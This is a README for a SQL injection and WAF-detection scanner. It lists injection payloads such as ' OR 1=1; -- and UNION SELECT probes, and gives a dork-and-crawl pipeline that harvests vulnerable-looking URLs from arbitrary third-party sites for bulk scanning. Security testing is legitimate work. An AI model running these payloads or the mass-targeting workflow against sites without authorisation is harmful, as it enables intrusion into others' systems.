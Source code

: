 
# SQL Injection Detector with WAF Detection

## Original
Forked from https://github.com/aungsanoo-usa/sqli_detect.git

## Overview
This script is a powerful tool for detecting **SQL Injection vulnerabilities** and identifying **Web Application Firewall (WAF) behavior** in web applications. Designed for both single URL and bulk URL testing from a `urls.txt` file, it provides detailed insights into the security posture of your application.

## Features
- **SQL Injection Detection**:
  - Comprehensive payloads for error-based, union-based, and logical SQL injection techniques.
  - Tracks significant changes in response length and detects error messages.
  
- **Web Application Firewall (WAF) Detection**:
  - Identifies WAF behavior by observing HTTP status codes (`403`, `406`, etc.) and content changes.

- **Flexible Scanning**:
  - Test a single URL or scan multiple URLs from a `urls.txt` file.

- **User-Friendly Output**:
  - Color-coded results for vulnerabilities, WAF detection, and safe responses.

## Requirements
- Python 3.6 or later
- Libraries: `requests`, `colorama`

Install the required libraries using:
```bash
pip install requests colorama
```

## Sample target
1. google dork:
   ```bash
   $ git clone https://github.com/BullsEye0/dorks-eye
   $ python dorks-eye.py
   query > site:id inurl:/product.php?id=
   display > 100

   $ cat dork_results.txt | grep -E ".php|.asp|.aspx|.jspx|.jsp" | grep '=' | sed 's/=.*/=/' | sort | uniq > bsqli.txt
   $ python3 sqli_detect.py
   URL > 2
   file > bsqli.txt
   ```
2. Input url and filter:
   ```
   # Step 1: Run katana with passive sources and save output to a unified file (output/output.txt)
   echo "$website_url" | katana -ps -pss waybackarchive,commoncrawl,alienvault -f qurl | uro > "output.txt"

   # Step 2: Run katana actively with depth 5 and append results to output/output.txt
   katana -u "$website_url" -d 5 -f qurl | uro | anew "output.txt"

   # Step 3: Filter output/output.txt for different vulnerabilities
   # XSS
   cat "output.txt" | Gxss | kxss | grep -oP '^URL: \K\S+' | sed 's/=.*/=/' | sort -u > "xss_output.txt"

   # Open Redirect
   cat "output.txt" | gf or | sed 's/=.*/=/' | sort -u > "open_redirect_output.txt"

   # LFI
   cat "output.txt" | gf lfi | sed 's/=.*/=/' | sort -u > "lfi_output.txt"

   # SQLi
   cat "output.txt" | gf sqli | sed 's/=.*/=/' | sort -u > "sqli_output.txt"
   ``

## Usage
1. Run the script:
   ```bash
   python sqli_detect.py
   ```
2. Choose your scan type:
   - Enter `1` for a single URL scan.
   - Enter `2` to scan multiple URLs from a file (e.g., `urls.txt`).

3. Review the results in the terminal.

## Input Format
### Single URL
When prompted, enter a URL with a parameter:
```
http://example.com/page.php?id=
```

### Bulk URLs
Create a `urls.txt` file with one URL per line:
```
http://example.com/page.php?id=
http://test.com/item.php?item_id=
http://vulnerable-site.com/index.php?product_id=
```

## Example Output
### Vulnerable Target
```text
[*] Starting SQL Injection scan for: http://example.com/page.php?id=
[+] SQL Injection Found with payload: ' OR 1=1; --
[!] WAF Detected: Payload '' caused HTTP 403
[+] SQL Injection Found with payload: ' UNION SELECT NULL,NULL,NULL--

[!] Scan complete.
[!!!] The target might be VULNERABLE to SQL Injection.
```

### Secure Target
```text
[*] Starting SQL Injection scan for: http://example.com/page.php?id=
[-] No vulnerability with payload: '
[-] No vulnerability with payload: ' OR 1=1; --
[!] WAF behavior detected: Response length changed with payload: ' UNION SELECT NULL,NULL,NULL--

[!] Scan complete.
[+] The target is NOT vulnerable to SQL Injection.
```

### Bulk URLs Summary
```text
[*] Starting SQL Injection scan for: http://example.com/page.php?id=
[+] SQL Injection Found with payload: ' OR '1'='1
[!] WAF Detected: Payload '' caused HTTP 406
[*] Starting SQL Injection scan for: http://secure-site.com/index.php?item_id=
[-] No vulnerability with payload: '

[!] Scan complete.
Summary:
http://example.com/page.php?id= -> VULNERABLE
http://secure-site.com/index.php?item_id= -> NOT VULNERABLE
```

## Payloads Used
The script tests a wide variety of SQL injection payloads, including:
- `'`
- `''`
- `' OR 1=1; --`
- `' UNION SELECT NULL,NULL,NULL--`
- And many more...

For the full list, refer to the `scan()` function in the script.

## Contributions
Contributions are welcome! If you'd like to improve the tool, feel free to fork the repository, make your changes, and submit a pull request.

## Disclaimer
This tool is intended for **educational purposes** and **authorized penetration testing** only. Ensure you have permission to test any target. The developers are not responsible for any misuse of this tool.

